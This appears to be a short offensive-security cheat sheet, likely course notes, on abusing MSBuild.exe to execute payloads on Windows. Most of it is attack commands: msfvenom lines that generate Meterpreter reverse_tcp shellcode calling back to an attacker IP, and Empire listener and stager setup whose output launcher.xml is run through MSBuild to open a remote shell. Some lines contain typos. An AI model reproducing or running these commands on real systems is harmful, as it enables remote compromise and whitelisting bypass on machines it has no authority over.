 # MSBuild

## Find it 
dir /b /s C:\msbuild.exe 

## POC 
console.writeline("get pwned!");
C:\windows\microsoft.nete\framework64\v4.0.30319\msbuild.exe C:\coursefiles\pwnedtxt.xml

## Execute (32 bit)
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.88.141 lport=8080 -f csharp > build.xml 
C:\Windows\Microsoft.NET\assembly\GAC_32\MSBuild\v4.0_4.0.0.0__b03f5f7f11d50a3a\MSBuild.exe C:\payload.xml 

## Execute (64 bit) 
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.88.141 lport=8081 -f csharp > build.xml 

## Empire 
uselistener http
set Host http://192.168.88.141:8001
set Port 8001
execute 
back 
usestager windows/launcher.xml
set Listener http
execute 
dowload file 
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe C:\CourseFiles\launcher.xml